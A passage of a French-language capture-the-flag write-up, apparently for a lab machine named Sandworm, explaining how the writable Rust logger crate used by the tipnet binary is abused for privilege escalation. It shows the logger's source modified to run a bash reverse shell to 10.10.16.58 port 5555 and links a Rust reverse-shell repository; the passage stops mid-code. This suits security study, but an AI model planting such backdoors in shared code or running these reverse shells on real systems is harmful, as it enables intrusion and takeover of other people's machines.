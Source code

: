 ```console
    let stmt_insert = conn.prep("INSERT INTO tip_submissions (timestamp, data, hash) VALUES (:timestamp, :data, :hash)")
        .unwrap();

    let now = Utc::now();

    for path in paths {
        let contents = fs::read_to_string(path).unwrap();
        let hash = Sha256::digest(contents.as_bytes());
        let hash_hex = hex::encode(hash);

        let existing_entry: Option<String> = conn.exec_first(&stmt_select, params! { "hash" => &hash_hex }).unwrap();
        if existing_entry.is_none() {
            let date = now.format("%Y-%m-%d").to_string();
            println!("[+] {}\n", contents);
            conn.exec_drop(&stmt_insert, params! {
                "timestamp" => date,
                "data" => contents,
                "hash" => &hash_hex,
                },
                ).unwrap();
        }
    }
    logger::log("ROUTINE", " - ", "Pulling fresh submissions into database.");

}
```

Grossièrement, l'appel avec ces paramètres va provoquer l'exécution de la fonction `pull_indeces`.
Cette fonction appellera la fonction log dans le logger.

L'utilisateur `Silentobserver` a des autorisations d'écriture sur le répertoire du logger et peut modifier le code source de le logger.

On va ajouter un reverseshell dans le code du logger, recompiler, attendre que l'atlas soit exécuté et exécuter à nouveau le shell utilisateur de l'atlas avec tipnet.

Trouvez le shell inversé en langage rust : https://github.com/LukeDSchenk/rust-backdoors/blob/master/reverse-shell/src/main.rs

On l'écrit dans le code source et on compile.

Le code (`/opt/crates/logger/src/lib.rs`)est le suivant :


```console
silentobserver@sandworm:/opt/crates/logger/src$ cat lib.rs 
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {
    let command = "bash -i >& /dev/tcp/10.10.16.58/5555 0>&1";
    let output = Command::new("bash")
        .arg("-c")
        .arg(command)
        .output()
        .expect("not work");

    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);
```